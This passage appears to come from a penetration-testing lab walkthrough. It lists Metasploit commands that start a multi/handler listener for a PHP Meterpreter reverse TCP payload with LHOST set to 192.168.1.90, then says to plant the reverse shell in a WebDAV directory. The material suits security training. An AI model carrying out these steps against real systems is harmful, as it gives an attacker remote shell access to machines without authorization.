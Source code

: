 - Run this series of commands to set up a listener:

  - `msfconsole` to launch `msfconsole`.
  - `use exploit/multi/handler`
  - `set payload php/meterpreter/reverse_tcp`
  - `show options` and point out they need to set the `LHOST`.
  - `set LHOST 192.168.1.90`
  - `exploit`

    ![12_listener.png](Images/12_listener.png)

- Place the reverse shell onto the WebdDAV directory.

    ![13_implanting_the_reverse.png](Images/13_implanting_the_reverse.png)

